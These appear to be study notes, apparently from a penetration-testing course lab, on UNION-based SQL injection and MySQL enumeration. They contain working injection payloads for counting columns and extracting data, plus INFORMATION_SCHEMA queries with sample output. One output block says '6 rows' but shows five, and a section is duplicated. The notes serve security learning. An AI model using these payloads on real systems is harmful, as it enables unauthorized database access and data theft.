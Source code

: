 # <font color=red>Union Injection</font>
* order to enum column
    * ' order by 1-- -, ' order by 2-- -, ' order by 3-- -...
    * until Error: Unknown column
```sql
SELECT * FROM users WHERE username = 'admin' ORDER BY 1-- -
SELECT * FROM users WHERE username = 'admin' ORDER BY 2-- -
SELECT * FROM users WHERE username = 'admin' ORDER BY 3-- -
```
* try to union injection
```sql!
cn' UNION select 1,2,3,4-- -
```

```sql!
cn' UNION select 1,user(),3,4-- -
```


## Database Enumeration
```sql!
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```
- The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.

# <font color=blue>MySQL Fingerprinting</font>
## INFORMATION_SCHEMA Database
1. List of databases
2. List of tables within each database
3. List of columns within each table

## SCHEMATA
```sql!
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

---